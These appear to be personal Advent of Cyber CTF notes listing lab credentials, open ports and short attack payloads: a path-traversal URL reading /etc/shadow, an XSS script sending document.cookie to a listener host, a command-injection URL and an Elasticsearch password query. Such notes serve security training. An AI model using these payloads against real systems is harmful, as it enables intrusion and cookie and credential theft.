 # Metasploit task

SSH Credentials:
santa:rudolphrednosedreindeer

# Day 11
Open ports:
21 - FTP
22 - SSH
111- rpcbind
2049 - NFS
3306 - MySQL

- Creds.txt - "the password is securepassword123"
-  MySQL creds - "root, ff912ABD*"*
NB: The "\*" appended to the line above is to escape that in the password

Database creds:
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
1 row in set (0.720 sec)

# Elfcryption
Pretty good privacy encryption key: "25daysofchristmas"
Decrypted text: "I will meet you outside Santa's Grotto at 5pm!"
Decrypting the encrypted text with RSA private key: "openssl rsautl -decrypt -inkey private.key -in note2_encrypted.txt -out plaintext.txt"; Passphrase is "hello"

# Accumulate (Day 13)
Interesting directory: /retro

# Day 14
- https://advent-bucket-one.s3.amazonaws.com
- https://advent-bucket-one.s3.amazonaws.com/employee_names.txt

# Local File Inclusion
Payload for /etc/shadow: http://10.10.27.101/get-file/..%2F..%2F..%2Fetc%2Fshadow
Payload for flag: http://10.10.27.101/get-file/..%2F..%2F..%2Fhome%2Fcharlie%2Fflag1.txt

# Elf JS
- Payload:
<code>
	<script>
		window.location("http://<local_IP>/?cookie="+document.cookie)
	</script>
</code>

# Command Injection
- Payload: http://10.10.96.173:3000/api/cmd/cat%20%2Fhome%2Fbestadmin%2Fuser.txt

# Day 23 - SQL Injection

<code>
<?php
ob_start(); //Turns on output buffering 
session_start();

$timezone = date_default_timezone_set("Europe/London");

$con = mysqli_connect("localhost", "santa", "PizzaParty123", "social"); //Connection variable

if(mysqli_connect_errno()) 
{
	echo "Failed to connect: " . mysqli_connect_errno();
}

?>
</code>

Current database: social
Table of interest: users
Column of interest: %santa%
Santa's email: bigman@shefesh.com
Santa's password: saltnpepper

# ELK Stack
Open ports:
"""
22 - ssh
111 - rpcbind
5601 - kibana
8000 - http server
9200 - Elastic search API
"""
- Payload: http://<MACHINE_IP>:9200/_search?q=password